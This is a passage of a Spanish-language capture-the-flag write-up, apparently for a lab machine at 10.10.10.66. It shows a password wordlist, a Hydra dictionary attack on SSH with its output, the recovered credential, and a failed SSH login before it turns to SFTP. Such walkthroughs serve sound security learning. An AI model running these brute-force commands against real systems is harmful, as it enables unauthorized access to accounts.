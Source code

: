 El archivo de **passwords.txt** debe tener el siguiente contenido:  
{% highlight markdown %}
nimda
cisco123
Pyuhs738?183*hjO!
tontochilegge
manager
HasdruBal78
HackerNumberOne!
@whereyougo?
change_on_install
passw0rd
odiolafeta
{% endhighlight %}

Ahora usando Hydra vamos a realizar un ataque de diccionario al servicio de "SSH", para ello debemos importar los dos archivos recien creados con los parametros "L" y "P" .  
  
{% highlight zsh %}
┌─[root@Horus] - [/Prometheus/Ethic4l-Hacking/Operations/Premium/Nightmare/creds-all] - [lun sep 09, 03:59]
└─[$]> hydra -L usuarios.txt -P passwords.txt -t 4 10.10.10.66 ssh -s 2222
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-09-09 04:00:16
[DATA] max 4 tasks per 1 server, overall 4 tasks, 121 login tries (l:11/p:11), ~31 tries per task
[DATA] attacking ssh://10.10.10.66:2222/
[2222][ssh] host: 10.10.10.66   login: ftpuser   password: @whereyougo?
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-09-09 04:00:42
{% endhighlight %}

Listo, hemos obtenido las credenciales de acceso: **ftpuser:@whereyougo?**.
Al intentar iniciar sesion en el servicio de SSH obtenemos lo siguiente:  

{% highlight zsh %}

┌─[root@Horus] - [/Prometheus/Ethic4l-Hacking/Operations/Premium/Nightmare/creds-all] - [lun sep 09, 04:00]
└─[$]> ssh ftpuser@10.10.10.66 -p 2222
The authenticity of host '[10.10.10.66]:2222 ([10.10.10.66]:2222)' can't be established.
ECDSA key fingerprint is SHA256:vraE0Jcr+Ej82gpS418pu9aYthWijx0FOjKWC9fthiU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.10.66]:2222' (ECDSA) to the list of known hosts.
ftpuser@10.10.10.66's password: 
PTY allocation request failed on channel 0

{% endhighlight %}

Por el nombre del usuario y al ver que no pudimos obtener una shell luego de iniciar con SSH, intentemos iniciar sesion con SFTP. 

**SFTP**, (SSH File Transfer Protocol) es un protocolo seguro de transferencia de archivos. Se ejecuta sobre el protocolo SSH . Es compatible con la funcionalidad completa de seguridad y autenticación de SSH.  
[Articulo Completo](https://www.ssh.com/ssh/sftp/)
